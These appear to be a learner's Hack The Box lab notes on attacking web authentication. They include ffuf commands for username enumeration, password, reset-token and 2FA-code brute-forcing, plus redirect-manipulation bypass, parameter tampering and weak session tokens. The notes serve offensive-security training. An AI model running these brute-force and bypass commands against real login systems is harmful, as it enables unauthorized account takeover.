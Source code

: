 ![[Pasted image 20240611220719.png]]

### Common Authentication Methods

- Knowledge-based authentication
- Ownership-based authentication
- Inherence-based authentication


| Knowledge                   | Ownership         | Inherence         |
| --------------------------- | ----------------- | ----------------- |
| Password                    | ID card           | Fingerprint       |
| PIN                         | Security Token    | Facial Pattern    |
| Answer to Security Question | Authenticator App | Voice Recognition |

# Bruteforce Attacks

## Enumerating Users

- responds differently to registered/valid and invalid inputs for authentication endpoints

![[Pasted image 20240611221602.png]]

![[Pasted image 20240611221611.png]]


- Enumerate usernames using ffuf

```shell
ffuf -w /opt/useful/SecLists/Usernames/xato-net-10-million-usernames.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown username"
```


### User Enumeration via Side-Channel Attacks

- the response timing, i.e., the time it takes for the web application's response to reach us
	- eg, if it checks for the userdb only for valid db rhen response time varies

### Brute-Forcing Passwords

- after finding username fuzz the password with the valid username
- filter the wordlist with password policies

```shell
grep '[[:upper:]]' /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt

```


```shell
ffuf -w ./custom_wordlist.txt -u http://94.237.49.178:49729/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
```



### Brute-Forcing Password Reset Tokens


![[Pasted image 20240611233705.png]]


-  need to create an account on the target web application, request a password reset token, and then analyze it.


**Example:**

```
Hello,

We have received a request to reset the password associated with your account. To proceed with resetting your password, please follow the instructions below:

1. Click on the following link to reset your password: Click

2. If the above link doesn't work, copy and paste the following URL into your web browser: http://weak_reset.htb/reset_password.php?token=7351

Please note that this link will expire in 24 hours, so please complete the password reset process as soon as possible. If you did not request a password reset, please disregard this e-mail.

Thank you.
```



- here a get request with parameter as toke is got so we can fuzz the token by generation numbers
- generate tokens


```shell
seq -w 0 9999 > tokens.txt
```




## Brute-Forcing 2FA Codes


![[Pasted image 20240612002024.png]]

![[Pasted image 20240612002032.png]]


```shell
pradyun2005@htb[/htb]$ seq -w 0 9999 > tokens.txt
```


```shell
pradyun2005@htb[/htb]$ ffuf -w ./tokens.txt -u http://bf_2fa.htb/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```

- after successfull auth every hit will be successfull



## Authentication Bypass via Direct Access


#### Direct Access

- find where after succesful login redirects to /admin.php
- access /admin.php directly without login page
- Does it redirect to index.php => modify response of http request 
- `302 FOUND to 200 OK` In response that redirecting

Why this happens ??

```php
if(!$_SESSION['active']) {
	header("Location: index.php");
}
```

include exit after header to mitigate
```php
	exit;
```


# Authentication Bypass via Parameter Modification

- check weather parameter is involved in authentication , how??
- remove/change the parameter value and check the functionality ,redirects to /index.php => parameter invloved in authentication
- brute the value to get higher priv
- idor

# Attacking Session Tokens

- collect different session tokes and analyze

```
2c0c58b27c71a2ec5bf2b4b6e892b9f9
2c0c58b27c71a2ec5bf2b4546092b9f9
2c0c58b27c71a2ec5bf2b497f592b9f9
2c0c58b27c71a2ec5bf2b48bcf92b9f9
2c0c58b27c71a2ec5bf2b4735e92b9f9
```

- only characters are changed easy to brute

- incremented session id

- base64,hex,url encoded session



